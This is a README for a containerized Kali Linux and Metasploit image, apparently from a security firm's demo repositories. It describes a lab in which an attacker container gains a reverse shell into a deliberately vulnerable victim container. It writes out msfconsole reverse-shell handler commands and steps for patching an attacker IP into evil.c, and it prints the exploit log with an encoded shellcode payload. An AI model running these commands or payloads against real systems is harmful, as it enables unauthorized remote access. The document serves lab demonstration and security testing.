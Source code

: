 # kali-metasploit
Containerized Kali Linux with Metasploit Framework installed. Repo is designed to install Polyverse custom modules.

## Build
```
pv build docker
```

## Usage
```
docker run -it polyverse/kali-metasploit msfconsole
```

## Example
You can use the `-x` switch with msfconsole and then specify all the msf commands you want to run in a single double-quoted argument.
```
docker run -it -p 5555:5555 polyverse-internal.jfrog.io/kali-metasploit msfconsole -x "use multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST $(docker run -it -p 5555:5555 polyverse-internal.jfrog.io/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'); set LPORT 5555; exploit"
```

### c-exploit.sh
In this example, an attacker container (`polyverse-internal.jfrog.io/kali-metasploit`) will get a reverse-shell from the victim container (`polyverse/c-exploit`).

1. In this repo, perform `pv build -r polyverse-internal.jfrog.io docker`. This will create the Docker container image `polyverse-internal.jfrog.io/kali-metasploit`.
2. `cd ..` to move up a folder and then `git clone https://github.com/polyverse-security/c-exploit.git`. If you've already cloned, just go to the folder and `git pull`.
3. Modify evil.c line `#define IPADDR "\xac\x11\x00\x03"` with the hex value representation of the results from `docker run -it polyverse-internal.jfrog.io/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'` This is the IP address of the kali-metasploit container -- the target for the reverse shell.
4. `pv build docker` to create a new version of `polyverse/c-exploit`.
5. `cd ../kali-metasploit` to get back to the original folder.
6. In one terminal window, launch `docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit`
7. In another terminial window, run the `./c-exploit.sh` script. You can look at the script to see what it's doing, but it's basically calling the `kali-metasploit` container with sub-scripts to determine ip addresses; it also runs `msfconsole` with the `-x` option that allows you to specify all the arguments for the metasploit module in a single command line.

This is what you should see in the c-exploit window:

```
$ docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Aug 15 07:16:40.745028 2017] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.10 (Debian) PHP/7.1.8 configured -- resuming normal operations
[Tue Aug 15 07:16:40.745097 2017] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
172.17.0.1 - - [15/Aug/2017:07:17:01 +0000] "GET /evil.php HTTP/1.1" 200 581 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

And this is what you should see in the kali-metasploit window:

```
$ ./c-exploit.sh 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.15.5-dev                          ]
+ -- --=[ 1675 exploits - 959 auxiliary - 294 post        ]
+ -- --=[ 489 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

RHOST => 192.168.0.15
RPORT => 8080
payload => linux/x86/shell_reverse_tcp
LHOST => 172.17.0.3
LPORT => 5555
[*] Started reverse TCP handler on 172.17.0.3:5555 
[*] start exploit...
[*] YWFhYWFhYWFhYWFhYWFhYWEw5v%2F%2F%2F38AAEgxwEgx%2F0gx9kgx0k0xwGoCX2oBXmoGWmopWA8FSYnASDH2TTHSQVLGBCQCZsdEJAIVs8dEJASsEAEfSInmahBaQVBfaipYDwVIMfZqA15I%2F85qIVgPBXX2SDH%2FV1deWki%2FLy9iaW4vc2hIwe8IV1RfajtYDwViYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiAA%3D%3D"
[*] Command shell session 1 opened (172.17.0.3:5555 -> 172.17.0.2:56998) at 2017-08-15 07:17:02 +0000
[*] done exploit.... 
```

At this point, you should have a reverse shell in the kali-metasploit window into the c-exploit container.
